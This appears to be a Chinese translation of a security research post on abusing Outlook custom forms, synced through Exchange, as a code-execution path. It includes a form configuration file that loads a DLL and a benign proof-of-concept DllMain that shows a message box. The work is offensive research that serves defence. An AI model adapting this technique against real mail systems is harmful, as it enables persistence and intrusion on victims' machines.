 简单来讲，我们认为这是一系列基于利用被泄露的凭据通过 Exchange 同步对象来发动攻击的第四次迭代。2015 年底，知名安全研究团队 Dreadnode 的联合创始人 Nick Landers 在[blog](https://www.netspi.com/blog/technical/adversary-simulation/malicious-outlook-rules/)上发布了一篇关于滥用 Outlook 规则实现远程代码执行 (RCE) 的文章。在接下来的几年里，Etienne (SensePost) 和 Nick 共同发现了另外两条攻击路径，这些路径最终都被微软修复，其中包括滥用 Outlook 表单。SensePost 发布了一系列优秀的博客文章（见参考文献），深入研究了漏洞、底层技术以及利用工具 Ruler。  
我们打算重回这项研究，因为我们认为 Outlook 拥有一个巨大的、尚未被充分探索的攻击面，并且我们在过去几年中多次成功进行设备代码 phishing/vishing攻击，这给了我们信心。  
我们开始通过 Outlook 客户端以及 MFCMAPI 和 ProcMon 手动探索 Outlook 表单。我们将将对底层技术进行概述，但基本上，Outlook 中可用的各种项目（邮件、日程表邀请、任务等）都通过“检查器窗口”中的表单结构进行显示。Outlook 既包含标准表单，也允许自定义表单，这些表单可以通过 Exchange（包括 Exchange Online）进行发布和同步。

在我们的研究中，我们发现了表单配置文件的格式，这些文件可以用来安装自定义表单。我们特别关注的是[文件和注册表条目](https://learn.microsoft.com/en-us/office/client-developer/outlook/mapi/form-configuration-file-platforms-section)。

> *File 条目列出表单库维护的表单服务器应用程序可执行文件，并在启动表单时将其加载到磁盘缓存中的新子目录中..。*  
> *每当使用 File 条目时，都会使用 Registry 条目，它标识存储表单服务器应用程序的可执行文件的表单库的注册表项…*

我们首先尝试证明本地代码执行。下面是一个示例表单配置，我们可以将其直接导入 Outlook 来安装表单。我们将文件条目设置为我们想要通过表单安装的 DLL 的位置，并将该文件保存到 c:\\poc\\hello.cfg。

```plain
[Description] 
MessageClass=IPM.Note.Hello 
CLSID={00000000-1234-1234-1234-000000000000} 
DisplayName=Hello 
Category=Standard 
Subcategory=Form 
Comment=Hello 
SmallIcon=C:\Windows\SysWOW64\OneDrive.ico 
LargeIcon=C:\Windows\SysWOW64\OneDrive.ico 

[Platforms] 
Platform1=Win16 

[Platform.Win16] 
CPU=ix86 
OSVersion=Win3.1 
File = C:\poc\hello.dll 
Registry = InprocServer32 = %d\hello.dll
```

为了测试目的，我们编译了一个带有在 DllMain 中执行 execution primitive 的 DLL，并再次将其放置在与我们上面的 hello.cfg 文件相同的文件夹中。

```plain
#include <Windows.h>
BOOL APIENTRY DllMain(HMODULE module, DWORD reason, LPVOID reserved) { 
     if (reason == DLL_PROCESS_ATTACH) { 
     MessageBoxA(0, "Hello", "Ruh Roh", 0); 
     }
     return TRUE;
}
```

配置文件然后可用于通过导航到“文件”->“选项”->“高级”->“自定义表单”并选择 hello.cfg 文件在 Outlook 中安装一个表单。  
注意：在通过配置文件安装自定义表单时，我们将位置设置为 Inbox。  